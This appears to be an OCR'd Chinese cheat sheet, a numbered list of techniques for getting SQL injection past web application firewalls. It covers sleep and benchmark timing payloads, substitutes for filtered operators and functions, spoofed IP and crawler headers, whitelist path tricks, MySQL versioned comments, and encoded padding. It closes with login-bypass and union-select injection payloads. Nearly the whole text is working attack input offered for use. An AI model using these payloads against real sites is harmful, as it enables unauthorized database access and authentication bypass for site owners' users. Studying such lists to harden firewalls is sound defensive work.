 limit 0,1
limit 0 offset 1

12.sleep屏蔽
and sleep(1)
and benchmark(100000000,1);

13.group_concat屏蔽
select group_concat("haha","niao");
select concat_ws(" ","haha","niao");

14.等号屏蔽
like rlike regexp <>
?id=1' or 1 like 1
?id=1' or 1 <> 1

15.post情况屏蔽#
id=3") or 1=1 -- a 使用--空格a可以在post情况下替代#

16.ip地址拦截
X-forwarded-for
X-remote-IP
X-Originating-IP
X-remote-addr
X-Real-Ip

17.修改静态资源
http://www.xx.com/sql.php?id=1
可以替换为
http://www.xx.com/sql.php/1.js?id=1

18.url白名单
为了防止防火墙误伤，部分waf内置白名单列表 admin manager system....

http://www.xx.com/sql.php/admin.php?id=1

http://www.xx.com/sql.php?xxxx=/manager/&b=攻击代码

http://www.xx.com/../../../../manager/../sql.php?id=1

19.爬虫白名单
伪造自己是搜索引擎（修改user-agent）

20.数据库注释执行
/*!50001 select * from table1*/;
如果数据库版本是5.00.01 版本以下的，语句才会执行
/*!45509 union select */ 1,2,3 --+

21.增加干扰
union all %23%a0 select 1,2,3 --+
SELECT * FROM users WHERE username='$username' AND password='$password'

SELECT * FROM users WHERE username=' admin' or '1'='1 ' AND password=' 123 '

--------

SELECT * FROM users WHERE username='$username'

SELECT * FROM users WHERE username=' x' union select 1,'admin',md5('haha') #'

